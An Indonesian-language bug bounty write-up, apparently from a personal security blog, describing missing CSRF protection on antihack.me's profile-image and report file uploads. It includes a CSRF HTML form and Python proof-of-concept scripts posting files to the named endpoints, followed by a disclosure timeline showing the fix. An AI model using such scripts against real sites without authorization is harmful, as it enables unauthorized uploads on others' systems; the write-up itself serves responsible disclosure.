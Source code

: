 ```yaml
---
layout: post
title: "[Bug Bounty] Antihack.me CSRF File Upload Vulnerability"
date: 2019-01-09 07:00
categories: bugbounty
---
```

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/antihack/logo.png?raw=true">
</div>


#### CSFR On Profile Image File Upload
Antihack.me merupakan sebuah website Bug Bounty Platform asal singapura. Setelah mendaftarkan user baru dan login ke aplikasi, kita dapat mengatur profile kita sebagai bug hunter, termasuk juga setting avatar/photo profile. Tertarik dengan fitur upload imagenya, kita coba intercept request upload image tersebut.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/antihack/csrf1/burp.png?raw=true">
</div>

Terlihat disana beberapa parameter yang dikirimkan, akan tetapi disana tidak ada csrf protection, artinya siapapun dapat mengakses fitur upload ini, sekalipun dia tidak memepunyai akses ke akun manapun.

Lalu kami coba test request dengan html:
```
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<title>CSRF File Upload</title>
</head>
<body>
	<form action="https://www.antihack.me/php/img_save_to_file_hacker.php" method="POST" name="csrf" enctype="multipart/form-data">
		<input type="file" name="img">
		<input name="HOST" value="AntiHACK">
		<input type="submit" value="Kirim">
	</form>
</body>
</html>
```

Lalu kami request dengan secript diatas dan didapatkan file berhasil diupload dengan baik. 
<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/antihack/csrf1/hasil%20html.png?raw=true">
</div>

Lalu kami coba buat script csrf dengan python:
```
#!/usr/bin/python3

import requests

headers = {
	'Origin':'www.antihack.me'
}
files = {
        'img': open("/home/zetc0de/Documents/antihack/antihack/csrf/security.png", 'rb') 
        }
data = {
	"HOST":"AntiHACK"
}

for i in range(3):
	r = requests.post("https://www.antihack.me/php/img_save_to_file_hacker.php",files=files, headers=headers, data=data)
	print(r.text)
```
Ketika dieksekusi, file terupload dengan baik.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/antihack/csrf1/hasil%20python.png?raw=true">
</div>

#### CSRF On Report And Comment File Upload

Sepertihalnya platform bug bounty pada umumnya, disana terdapat fitur untuk melakukan reporting terkait celah keamanan yang ditemukan. Didalam fitur reporting tersebut terdapat beberapa fungsi editing, tak lupa fungsi upload file gambar/video juga disertakan guna kelengkapan report. 

Dengan script python:
```
#!/usr/bin/python3

import requests


files = {
        'files[]': open("/home/zetc0de/Documents/antihack/antihack/csrf/security.png", 'rb') 
        }

for i in range(5):
	r = requests.post("https://www.antihack.me/php/ajax_upload_file_company_new.php",files=files)
	print(r.text)


```

Didapatkan result sebagai berikut:

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/antihack/csrf2/2018-12-27_21-11.png?raw=true">
</div>

```
2018-12-28: Bug reported
2018-12-29: Triaged
2019-01-09: Report Resolved
2019-01-09: Swag Rewarded
```